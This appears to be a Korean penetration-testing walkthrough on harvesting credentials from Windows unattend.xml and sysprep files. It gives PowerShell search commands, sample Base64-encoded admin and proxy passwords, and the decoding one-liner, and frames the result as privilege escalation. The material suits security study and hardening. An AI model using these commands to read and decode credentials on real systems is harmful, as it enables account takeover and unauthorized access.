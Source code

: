 - **PowerShell을 활용한 검색 명령어**
  ```powershell
	Get-ChildItem -Path C:\Windows\Panther -Recurse -Include `
	  'sysprep.inf', 'sysprep.xml', 'unattend.xml', 'unattended.xml', 'unattend.txt' -Force `
	| ForEach-Object { $_.FullName }
  ```
  설명: C:\Windows\Panther 디렉토리 내부의 모든 하위 폴더에서 숨김 파일을 포함한 Unattended 설정 관련 파일들을 재귀적으로 검색합니다.

- **Base64 디코딩 예시 (비밀번호 복호화 등)**
  ```Powershell
  [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('<base64>'))
  
  ```
#### 🧪 Unattended 파일 이용한 비밀 정보 수집 시나리오(PowerShell)**

1. PowerShell로 Unattended 파일 탐색
- 해당 명령어를 통해 C:\Windows\ 경로에서 unattend.xml 파일 확인
```powershell
Get-ChildItem -Path C:\Windows\ -Recurse -Include `
  'sysprep.inf', 'sysprep.xml', 'unattend.xml', 'unattended.xml', 'unattend.txt' -Force `
  -ErrorAction SilentlyContinue | ForEach-Object { $_.FullName }
```

2. 파일 내용 확인
```powershell
cat C:\Windows\Panther\unattend.xml
```

- 결과
```
<name>admin</name>
<password>QwBlAGwAYwBvAG0AZQBAMgAwADIAMwAhAA==</password>
```
admin 계정과 Base64로 암호화된 계정 정보를 포함하고 있음

3. 탈취한 비밀번호 복호화
```powershell
[System.Text.Encoding]::Unicode.GetString(
  [System.Convert]::FromBase64String("QwBlAGwAYwBvAG0AZQBAMgAwADIAMwAhAA==")
)
```
- 위 명령어를 통해 원본 비밀번호 획득하여 admin 계정으로 권한 상승 가능

4. `C:\Windows\Panther\unattend.xml` 추가 분석
```
<RunSynchronous>
  <!-- WinRM configuration -->
  <RunSynchronousCommand wcm:action="add">
    <Order>1</Order>
    <Path>powershell -NoLogo -Command "$proxy = New-Object System.Net.WebProxy('http://192.168.111.100:8080'); 
    $proxy.Credentials = New-Object System.Net.NetworkCredential('proxyadmin', 'Password123@'); 
    Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/cloudbase/unattended-setup-scripts/master/SetupWinRMAccess.ps1' 
    -Proxy $proxy -OutFile 'C:\Windows\Temp\SetupWinRMAccess.ps1'"</Path>
    <Description>Download WinRM setup script</Description>
  </RunSynchronousCommand>
</RunSynchronous> 
```
- 프록시 서버 IP 확인 및 자격 증명(proxyadmin, Password123@)이 노출되어 추가 공격 가능

---